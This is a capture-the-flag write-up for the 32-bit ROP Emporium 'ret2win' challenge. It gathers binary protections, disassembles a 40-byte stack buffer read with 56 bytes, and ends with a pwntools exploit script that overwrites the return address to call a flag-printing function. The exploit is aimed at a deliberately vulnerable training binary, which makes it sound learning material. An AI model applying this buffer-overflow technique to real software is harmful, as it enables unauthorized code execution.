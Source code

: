 ret2win
=

Locate a method that you want to call within the binary.
Call it by overwriting a saved return address on the stack.

Gathering Information
=

As the title of the challenge says, we have to perform a ret2win. We can start of things by seeing the file type and check the protections on the given binary:

```
ret2win32: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=e1596c11f85b3ed0881193fe40783e1da685b851, not stripped
```

```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   72 Symbols        No    0               3               ret2win32
```

As we can see, its a pretty basic challenge with only NX enabled which shouldn't bother us.

We can run the binary and see what it does:

```
ret2win by ROP Emporium
x86

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

> aaa  
Thank you!

Exiting
```

Nothing special.

Reversing the Code
=

We can now start looking at the binary. Opening pwndgb on the binary, we can list the functions:

```
0x08048374  _init
0x080483b0  read@plt
0x080483c0  printf@plt
0x080483d0  puts@plt
0x080483e0  system@plt
0x080483f0  __libc_start_main@plt
0x08048400  setvbuf@plt
0x08048410  memset@plt
0x08048420  __gmon_start__@plt
0x08048430  _start
0x08048470  _dl_relocate_static_pie
0x08048480  __x86.get_pc_thunk.bx
0x08048490  deregister_tm_clones
0x080484d0  register_tm_clones
0x08048510  __do_global_dtors_aux
0x08048540  frame_dummy
0x08048546  main
0x080485ad  pwnme
0x0804862c  ret2win
0x08048660  __libc_csu_init
0x080486c0  __libc_csu_fini
0x080486c4  _fini
```

Here, we can see there are 3 functions which stand out. Disassembling the main function, we only see it calling the pwnme function.
Disassembling the pwnme function, we can see that a buffer of 0x28 (40 bytes) is being set:

```
   0x080485ad <+0>:     push   ebp
   0x080485ae <+1>:     mov    ebp,esp
   0x080485b0 <+3>:     sub    esp,0x28
   0x080485b3 <+6>:     sub    esp,0x4
   0x080485b6 <+9>:     push   0x20
   0x080485b8 <+11>:    push   0x0
   0x080485ba <+13>:    lea    eax,[ebp-0x28]     <----- 0x28 = 40
   0x080485bd <+16>:    push   eax
   0x080485be <+17>:    call   0x8048410 <memset@plt>
   0x080485c3 <+22>:    add    esp,0x10
   0x080485c6 <+25>:    sub    esp,0xc
   0x080485c9 <+28>:    push   0x8048708
   0x080485ce <+33>:    call   0x80483d0 <puts@plt>
   0x080485d3 <+38>:    add    esp,0x10
   0x080485d6 <+41>:    sub    esp,0xc
   0x080485d9 <+44>:    push   0x8048768
   0x080485de <+49>:    call   0x80483d0 <puts@plt>
   0x080485e3 <+54>:    add    esp,0x10
   0x080485e6 <+57>:    sub    esp,0xc
   0x080485e9 <+60>:    push   0x8048788
   0x080485ee <+65>:    call   0x80483d0 <puts@plt>
   0x080485f3 <+70>:    add    esp,0x10
   0x080485f6 <+73>:    sub    esp,0xc
   0x080485f9 <+76>:    push   0x80487e8
   0x080485fe <+81>:    call   0x80483c0 <printf@plt>
   0x08048603 <+86>:    add    esp,0x10
   0x08048606 <+89>:    sub    esp,0x4
   0x08048609 <+92>:    push   0x38
   0x0804860b <+94>:    lea    eax,[ebp-0x28]
   0x0804860e <+97>:    push   eax
   0x0804860f <+98>:    push   0x0
   0x08048611 <+100>:   call   0x80483b0 <read@plt>
   0x08048616 <+105>:   add    esp,0x10
   0x08048619 <+108>:   sub    esp,0xc
   0x0804861c <+111>:   push   0x80487eb
   0x08048621 <+116>:   call   0x80483d0 <puts@plt>
   0x08048626 <+121>:   add    esp,0x10
   0x08048629 <+124>:   nop
   0x0804862a <+125>:   leave
   0x0804862b <+126>:   ret
```

We now have a buffer overflow scenario. Disassembling the ret2win function, we can see that the memory address `0x8048813` is calling `/bin/cat flag.txt` which is obviously where we want to return to after the overflow.
We wont directly return to `0x8048813` tho, we have to return to `0x0804862c` which is the address of the function.

```
   0x0804862c <+0>:     push   ebp
   0x0804862d <+1>:     mov    ebp,esp
   0x0804862f <+3>:     sub    esp,0x8
   0x08048632 <+6>:     sub    esp,0xc
   0x08048635 <+9>:     push   0x80487f6
   0x0804863a <+14>:    call   0x80483d0 <puts@plt>
   0x0804863f <+19>:    add    esp,0x10
   0x08048642 <+22>:    sub    esp,0xc
   0x08048645 <+25>:    push   0x8048813                        <----- /bin/cat flag.txt
   0x0804864a <+30>:    call   0x80483e0 <system@plt>
   0x0804864f <+35>:    add    esp,0x10
   0x08048652 <+38>:    nop
   0x08048653 <+39>:    leave
   0x08048654 <+40>:    ret
```

Lastly, we can confirm the offset by the inbuilt `cyclic` command which comes out to be `44`.

Now, we have all we need for our ret2win.

Exploiting the Binary
=

We can now build the script which does this stuff:

Buffer Overflow the input with 44 bytes.
Return to the ret2win function.

```py
from pwn import *

context.binary = elf = ELF("./ret2win32")

io = process()

offset = 44
ret2win_address = 0x0804862c

payload = b'A' * offset
payload += p32(ret2win_address)

io.recvline(">")
io.sendline(payload)

io.interactive()
io.close()
```


